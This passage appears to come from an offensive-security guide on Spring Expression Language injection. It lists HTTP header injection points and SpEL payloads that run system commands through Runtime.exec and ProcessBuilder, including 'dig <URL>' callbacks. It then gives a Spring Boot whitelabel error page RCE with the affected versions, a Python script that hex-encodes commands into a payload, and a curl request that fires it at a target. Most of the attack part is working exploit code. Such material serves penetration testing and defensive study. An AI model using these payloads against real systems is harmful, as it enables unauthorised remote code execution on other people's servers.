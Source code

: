 HTTP headers:

* `Cookie: cookie_name=<expression string>`
* `Cookie: <expression string>=cookie_value`
* `Private-Token: <expression string>`

You can use the following payloads as the expression string:

```java
${1+3}
T(java.lang.Runtime).getRuntime().exec("dig <URL>")
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('dig <URL>')
new java.lang.ProcessBuilder({'dig <URL>'}).start()
${user.name}
```
{% endtab %}
{% endtabs %}

#### Spring boot whitelabel error page RCE

{% tabs %}
{% tab title="Exploit" %}
This vulnerability requires the following conditions:

* Spring Boot version `1.1.0 - 1.1.12`, `1.2.0 - 1.2.7`, `1.3.0`
* There is at least one interface that triggers the default whitelabel error page in Spring Boot

Check the next Spring Boot application: [LandGrey/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce). If you send a request to `/article?id=hop`, the application will return a whitelabel error with code `500`. However, if you send a request to `/article?id=${7*7}`, the application returns an error page with the calculated value `49`.&#x20;

As a result, it leads to RCE and you can execute arbitrary commands first by preparing the payload with the next python scrypt (this sample prepares a payload that executes `open -a Calculator` command):

```python
cmd = 'open -a Calculator'

h = ''
for x in cmd:
    h += hex(ord(x)) + ','

payload = h.rstrip(',')

print('${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{' + payload + '}))}')
```

Send the payload within the `id` parameter, `open -a Calculator` will be executed:&#x20;

```bash
curl 'http://<TARGET>/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}'
```
{% endtab %}
{% endtabs %}
